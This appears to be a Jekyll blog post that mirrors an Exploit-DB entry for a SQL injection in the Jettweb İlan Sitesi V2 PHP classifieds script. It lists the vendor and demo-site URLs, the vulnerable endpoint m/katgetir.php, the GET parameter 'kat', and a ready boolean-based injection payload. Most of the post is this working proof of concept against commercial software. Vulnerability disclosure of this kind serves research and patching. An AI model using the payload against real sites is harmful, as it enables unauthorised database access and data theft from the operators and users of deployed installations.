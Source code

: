 ```yaml
---
layout:     post
title:      "Jettweb İlan Sitesi V2 - SQL Injection"
date:       2019-03-26 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Jettweb Php Hazır İlan Sitesi Scripti V2 - SQL Injection
# Date: 25.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://jettweb.net/c-23-ilan-Siteleri.html
# Demo Site: http://ilanv2.proemlaksitesi.net
# Version: V2
# Tested on: Kali Linux
# CVE: N/A

----- PoC : SQLi -----

Request: http://localhost/[PATH]/m/katgetir.php?kat=1
Vulnerable Parameter: kat (GET)
Payload: kat=1' OR NOT 1300=1300-- rwTf
            
